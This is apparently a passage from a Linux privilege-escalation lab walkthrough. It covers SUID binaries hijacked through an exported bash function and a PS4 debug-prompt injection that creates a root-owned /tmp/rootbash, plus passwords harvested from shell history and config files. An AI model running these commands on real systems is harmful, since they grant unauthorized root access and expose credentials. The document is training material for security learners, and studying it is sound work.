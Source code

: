 ```
* Create a Bash function with the name "/usr/sbin/service" that executes a new Bash shell (using -p so permissions are preserved) and export the function:

```
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
```

* Run the suid-env2 executable to gain a root shell:

```/usr/local/bin/suid-env2 ```


## 14. SUID / SGID Executables - Abusing Shell Features (#2)

**Note: This will not work on Bash versions 4.4 and above.**

When in debugging mode, Bash uses the environment variable PS4 to display an extra prompt for debugging statements.

* Run the /usr/local/bin/suid-env2 executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of /bin/bash:

```env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2 ```

* Run the /tmp/rootbash executable with -p to gain a shell running with root privileges:

```/tmp/rootbash -p ```

* Remember to remove the /tmp/rootbash executable and exit out of the elevated shell before continuing as you will create this file again later in the room!

```
rm /tmp/rootbash
exit
```


## 15.  Passwords & Keys - History Files 

If a user accidentally types their password on the command line instead of into a password prompt, it may get recorded in a history file.

* View the contents of all the hidden history files in the user's home directory:

```cat ~/.*history | less ```

Note that the user has tried to connect to a MySQL server at some point, using the "root" username and a password submitted via the command line. Note that there is no space between the -p option and the password!

* Switch to the root user, using the password:

```su root ```

## 16. Passwords & Keys - Config Files 

Config files often contain passwords in plaintext or other reversible formats.

* List the contents of the user's home directory:

```ls /home/user ```

* Note the presence of a myvpn.ovpn config file. View the contents of the file:

```